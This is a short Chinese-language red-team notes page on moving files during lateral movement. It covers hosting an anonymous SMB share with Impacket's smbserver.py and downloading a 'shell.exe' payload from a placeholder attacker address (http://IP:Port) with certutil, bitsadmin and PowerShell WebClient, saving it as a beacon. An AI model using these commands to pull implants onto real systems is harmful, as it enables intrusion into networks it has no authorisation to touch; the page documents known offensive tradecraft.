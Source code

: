 ![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled.png)

## 搭建SMB服务器

`SMB`（`Server Message Block`，服务器消息块），主要功能是使网络上的计算机能够共享计算机文件、打印机、串行端口和通信等资源。`SMB`消息一般使用`NetBIOS`协议或`TCP`发送，分别使用端口`139`和`445`（主要）。

在实战中，攻击者可以在自己的主机上或所控内网主机上搭建`SMB`服务器，将需要横向传输的文件放入`SMB`服务器的共享目录，并指定`UNC`路径，让横向移动的目标主机远程加载`SMB`共享的文件。需要注意的是，要使用`SMB`匿名共享，并且搭建的`SMB`服务器能够被横向移动的目标所访问到。

实现方式：

- `Linux`系统上，通过`Impacket`项目提供的`smbserver.py`来搭建`SMB`服务器。

```bash
mkdir /root/share
python smbserver.py evilsmb /root/share -smb2support
```

- `Windows`系统上，如果已经获取了管理员权限，可以手动配置`SMB`匿名共享，也可以通过`Invoke-BuildAnonymousSMBServer`在本地快速启动一个匿名共享。

## 利用Windows自带工具

```bash
# Certutil, Certutil是Windows自带的命令行工具, 用于管理Windows证书并作为证书服务的一部分安装
certutil -urlcache -split -f http://IP:Port/shell.exe C:\beacon.exe

# BITSAdmin, Bitsadmin是一个Window命令行工具, 可以用于创建、下载或上载作业, 监视其进度, Win7及以后版本自带Bitsadmin工具
# 创建一个名为test的Bitsadmin任务, 下载shell.exe到本地
bitsadmin /transfer test http://IP:Port/shell.exe C:\beacon.exe

# Powershell, 可以通过创建WebClient对象来实现文件下载
(New-Object Net.WebClient).DownloadFile('http://IP:Port/shell.exe', 'C:\beacon.exe')
```
